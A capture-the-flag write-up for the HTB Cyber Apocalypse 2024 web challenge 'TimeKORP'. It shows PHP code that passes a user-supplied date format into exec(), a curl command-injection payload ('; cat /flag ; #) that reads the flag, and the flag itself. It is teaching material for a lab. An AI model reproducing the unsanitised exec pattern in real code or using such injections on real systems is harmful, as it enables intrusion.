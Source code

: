```yaml
---
title: HTB Cyber Apocalypse - TimeKORP
date: Sun Mar 15 12:09:13 AM +04 2024
categories: [Writeup]
tags: [ctf,htb,htb2024,htb_cyber_apocalypse_2024,web,ssti]
---
```


## Description

POINTS: 425<br>
DIFFICULTY: very easy

Are you ready to unravel the mysteries and expose the truth hidden within KROP's digital domain? Join the challenge and prove your prowess in the world of cybersecurity. Remember, time is money, but in this case, the rewards may be far greater than you imagine.

## Analysis

Model: 

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

Controller:

```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

Model object gets format for timestamp, on `getTime()` method it gets executed as system command and result is returned back to us. Because the input can be manipulated by user this makes application vulnerable to Command Injection.

## Solution

To achive command execution we first need to escape the quotes of format, then inject the command and in this case comment out anything after.

```powershell
# '; cat /flag ; #
➜ curl 'http://94.237.60.39:34999/?format=%Y-%m-%d%27;%20cat%20/flag;%23' -s | sls HTB

        <h1 class="jumbotron-heading">><span class='text-muted'>It's</span> HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}<s
pan class='text-muted'>.</span></h1>
```

> Directly passing `#` into url will not get interpreted as bash comment, because `#` is part of url. Instead you can URLEncode and use it like so. `#` -> `\x23` -> `%23`
{: .prompt-warning }

> Flag: HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}
{: .prompt-tip }